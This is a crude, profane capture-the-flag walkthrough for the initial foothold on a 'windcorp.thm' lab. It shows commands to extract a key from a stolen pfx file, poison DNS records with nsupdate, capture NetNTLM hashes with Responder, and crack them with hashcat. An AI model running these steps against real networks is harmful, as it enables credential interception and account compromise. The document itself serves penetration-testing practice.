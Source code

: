 # Foothold
## User hashes

Right fucko, follow this carefully because this is volatile as fuck...

You want to edit the responder config located at `/etc/responder/Responder.conf` and put **absolute** paths to the god damn SSL CERT/KEY

You want to extract the key and certificate from the pkcs12 that you pulled from `https://selfservice.dev.windcorp.thm/backup`

Run these damn commands:

This pulls your damn key
`openssl pkcs12 -in cert.pfx -out OUTFILE.key -nodes -nocert`

`openssl pkcs12 -in cert.pfx -out OUTFILE.crt -nodes -clcerts`

Have fun more those to your damn certs responder folder.

Spin up the bad boy that is responder with 
`sudo responder -I tun0`

You then want to update the DNS records for this shit.

```
server <VICTIM SERVER>
> update delete selfservice.windcorp.thm
> send
> update add selfservice.windcorp.thm 1234 A <ATTACK IP>
> send
```

Then you just have to sit on your ass and wait... Enjoy the hash...

Now crack that bloody hash

`hashcat.exe -m 5600 hash.txt rockyou.txt`

enjoy...

`edwardle:<SNIP>`


right so apparently seclists doesn't have `/powershell` in. 

So use directory-2-3-medium.txt and find the powershell directory.

You have the credentials already...

